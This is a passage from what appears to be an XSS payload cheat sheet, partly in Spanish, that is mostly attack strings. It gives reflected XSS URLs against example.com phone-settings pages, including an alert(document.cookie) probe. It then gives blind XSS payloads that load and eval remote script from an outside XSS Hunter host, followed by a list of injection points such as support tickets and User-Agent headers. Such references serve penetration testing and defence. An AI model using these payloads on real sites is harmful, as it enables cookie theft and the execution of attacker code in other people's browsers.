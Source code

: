 ```
- https://example.com/userapp/phoneSettings.html?successMessage=%3Cscript%3Ealert(document.cookie)%3C/script%3E
- https://example.com/userapp/phoneSettingsAction.html?formAction=&callForwardingFlag=1&callForwardNumber=SOMEDATA"><script>alert`XSS`</script>&apply=Apply Changes
- https://example.com/userapp/directoriesAction.html?formAction=applySpeedDialChanges&callEntryToDelete=&newSpeedDialName(1)=&newSpeedDialNumber(1)=&newSpeedDialName(2)=&newSpeedDialNumber(2)=&newSpeedDialName(3)=&newSpeedDialNumber(3)=&newSpeedDialName(4)=&newSpeedDialNumber(4)=&newSpeedDialName(5)=&newSpeedDialNumber(5)=&newSpeedDialName(6)=&newSpeedDialNumber(6)=&newSpeedDialName(7)=&newSpeedDialNumber(7)=&newSpeedDialName(8)=&newSpeedDialNumber(8)=&newSpeedDialName(9)=&newSpeedDialNumber(9)=&newSpeedDialName(10)=&newSpeedDialNumber(10)=&newSpeedDialName(11)=&newSpeedDialNumber(11)=&newSpeedDialName(12)=&newSpeedDialNumber(12)=SOMEDATA<script>alert`XSS`</script>&newSpeedDialName(13)=&newSpeedDialNumber(13)=&newSpeedDialName(14)=&newSpeedDialNumber(14)=&newSpeedDialName(15)=&newSpeedDialNumber(15)=&newSpeedDialName(16)=&newSpeedDialNumber(16)=&newSpeedDialName(17)=&newSpeedDialNumber(17)=&newSpeedDialName(18)=&newSpeedDialNumber(18)=&newSpeedDialName(19)=&newSpeedDialNumber(19)=&newSpeedDialName(20)=&newSpeedDialNumber(20)=&applySpeedDialChanges=Apply

```

## Blind XSS

### XSS Hunter

Available at [https://xsshunter.com/app](https://xsshunter.com/app)

XSS Hunter le permite encontrar todo tipo de vulnerabilidades de secuencias de comandos entre sitios, incluido el XSS ciego que a menudo se pasa por alto. El servicio funciona alojando sondas XSS especializadas que, al dispararse, escanean la página y envían información sobre la página vulnerable al servicio XSS Hunter.

```javascript
"><script src=//yoursubdomain.xss.ht></script>
```
```javascript
javascript:eval('var a=document.createElement(\'script\');a.src=\'https://yoursubdomain.xss.ht\';document.body.appendChild(a)')
```
```javascript
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//yoursubdomain.xss.ht");a.send();</script>
```
```javascript
<script>$.getScript("//yoursubdomain.xss.ht")</script>
```

### Blind XSS endpoint

- Contact forms
- Ticket support
- Referer Header
  - Custom Site Analytics
  - Administrative Panel logs
- User Agent
  - Custom Site Analytics
  - Administrative Panel logs
- Comment Box
  - Administrative Panel
